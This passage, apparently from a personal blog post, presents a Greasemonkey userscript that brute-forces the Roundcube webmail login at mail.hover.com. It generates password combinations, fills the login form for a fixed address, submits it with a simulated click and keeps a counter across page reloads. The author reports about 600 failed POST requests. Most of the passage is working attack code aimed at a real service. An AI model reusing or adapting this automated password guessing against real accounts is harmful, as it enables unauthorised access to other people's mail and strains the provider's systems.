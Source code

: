 ```js
}

var combine = (a, b) => [].concat.apply([], a.map(function(o) {
  return b.map(function(s) {
    return o + s
  })
}))

var simulateClick = (dom) => {
  let ev = document.createEvent("MouseEvents")
  ev.initMouseEvent("click", true, false, self, 0, 0, 0, 0, 0, false, false, false, false, 0, null)
  return dom.dispatchEvent(ev)
}

async function stall(stallTime = 2000) {
  await new Promise(resolve => setTimeout(resolve, stallTime))
}

if (document.getElementById("rcmloginuser") != null) {
  (async () => {
    console.log("attempting..")

    console.log("getting count")
    let count = await GM.getValue('count', 0)
    if (count == 0) await GM.setValue("passwords", getAllPasswords())

    console.log("getting password combination")
    let passwords = await GM.getValue("passwords", "wtf")

    let time = 3000 + Math.round(Math.random() * 30) * 100
    console.log("simluating wait-time: " + time)
    await stall()
    console.log("wait-time ended.")

    let pw = passwords[count]
    await GM.setValue('count', count + 1)

    document.getElementById("rcmloginuser").value = "a@0a.io"
    document.getElementById("rcmloginpwd").value = pw
    console.log("submitting form... for the " + count + " times")
    console.log("of password" + pw)
    simulateClick(document.getElementsByClassName("mainaction")[0])

  })()
}
```

Nope. It did ~600 POST requests to mail.hover.com but to no avail.

<p style="text-align:center; font-size:1.3em">
&bull; &bull; &bull;
</p>
